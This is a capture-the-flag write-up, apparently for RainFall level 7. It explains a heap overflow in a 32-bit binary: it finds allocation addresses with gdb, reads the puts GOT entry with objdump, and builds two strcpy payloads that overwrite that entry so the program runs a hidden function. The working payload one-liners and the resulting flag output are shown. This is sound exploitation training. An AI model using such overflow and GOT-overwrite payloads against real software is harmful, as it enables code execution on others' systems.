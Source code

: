 # Level 7

## Analysis

In the decomp we can notice three elements; a non called function `m()`, a struct `struct_0` which contains an `unsigned int` and a `char *`, and a global called `c`.

`c` is used to store the password read from the pass file (`fgets()` in the main). `m()` prints the content of `c`.

## Finding the malloc addresses

In the main, two `struct_0` are allocated from malloc, then their buffer are also allocated:

```c
struct_0 *v0;  // [bp-0xc]
struct_0 *v1;  // [bp-0x8]

v1 = malloc(8);
v1->field_0 = 1;
v1->field_4 = malloc(8);
v0 = malloc(8);
v0->field_0 = 2;
v0->field_4 = malloc(8);
```

Using gdb, we can retreive their memory addresses as such:

```bash
(gdb) b *main+21
Breakpoint 1 at 0x8048536
(gdb) b *main+47
Breakpoint 2 at 0x8048550
(gdb) b *main+68
Breakpoint 3 at 0x8048565
(gdb) b *main+94
Breakpoint 4 at 0x804857f
(gdb) r l l 
Starting program: /home/user/level7/level7 l l

Breakpoint 1, 0x08048536 in main ()
(gdb) x/x $eax 
0x804a008:	0x00000000
(gdb) s       
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048550 in main ()
(gdb) x/x $eax
0x804a018:	0x00000000
(gdb) s       
Single stepping until exit from function main,
which has no line number information.

Breakpoint 3, 0x08048565 in main ()
(gdb) x/x $eax
0x804a028:	0x00000000
(gdb) s       
Single stepping until exit from function main,
which has no line number information.

Breakpoint 4, 0x0804857f in main ()
(gdb) x/x $eax
0x804a038:	0x00000000
```

From that, we can assume that:

```
v1             = 0x804a008 -> Not useful
v1->field_4    = 0x804a018
v0             = 0x804a028
v0->field_4    = 0x804a038 -> Not useful
```

## The strcpy calls

After allocating all this stuff, the buffer are used to store our arguments using `strcpy()`

```c
strcpy(v1->field_4, a1[1]);
strcpy(v0->field_4, a1[2]);
```

`v1` being located lower in the memory, oveflowing the first `strcpy()` call will write in the `v0` area.

## puts@plt

Since we cannot modify neither `fopen()` which reads the password, nor `fgets()` which stores the password into `c`, the only input we have is `puts()`.

We can get its GOT address using: 

```bash
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

Giving us: `08049928`

### Quick GOT reminder

The GOT entry for `puts()` holds the address to the `puts()` function in the libc. In this case:
`08049928 R_386_JUMP_SLOT   puts`

`08049928` holds the address to the libs function, hence why changing this address can make it execute whatever function we want!

# Exploit
```
+---------------------------------------+
|   v1                      *sizeof(8)  |
|   v1->field_0 (uint)      sizeof(4)   |
|   v1->field_4 (char *)    *sizeof(8)  | 0x804a018  ^
+---------------------------------------+            | = 16
|   v0                      *sizeof(8)  | 0x804a028  V
|   v0->field_0 (uint)      sizeof(4)   |            + = 4
|   v0->field_4 (char *)    *sizeof(8)  | 0x804a02c  ↳ 20 from `v1->field_4`           
+---------------------------------------+
```
Here's how our structs layout is structured, what we want to do is write a new memory address (`m()`) at the address of `puts()`.
Here's how:

We will use the first `strcpy()` to make `v0->field_4` point to the `puts()` GOT entry, then using the second `strcpy()` we will be able to overwrite the address at this pointer to `m()`.

To do that we need to find the right offset for the first buffer, either through brute force, or we can use the offset we got from the malloc return addr:

We have 16 bytes between `v1->field_4` and `v0`, now we need to add the 4 bytes of the uint which gives us 20 bytes.
So we need to replace the address 20 bytes after our buffer!!

If we put the address of the `puts()` GOT entry after the 20 filler, v0->field_4 will now point to the GOT entry.

Using the second argument, `strcpy()` will now write to the GOT entry, if we pass another address, for example the one from `m()`, it will replace the entry with our function.

Then when `puts()` gets executed, it will instead execute `m()`!

## Our payload

It will consist of the following:

First argument:
`[20 filler to get to the v0->field_4 addr] + [`puts()` GOT addr]`

This will setup the address we want to overwrite with the second argument:
`[addr of `m()`]`

<details>
    <summary>Spoiler</summary>

First payload:
```bash
first_arg=$(python -c "print'A' * 20 + '\x28\x99\x04\x08'")
```

Second:
```bash
second_arg=$(python -c "print'\xF4\x84\x04\x08'")
```

## Results

```bash
level7@RainFall:~$ first_arg=$(python -c "print'A' * 20 + '\x28\x99\x04\x08'")
level7@RainFall:~$ second_arg=$(python -c "print'\xF4\x84\x04\x08'")          
level7@RainFall:~$ ./level7 $first_arg $second_arg 
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1748700560
level7@RainFall:~$ 
```

</details>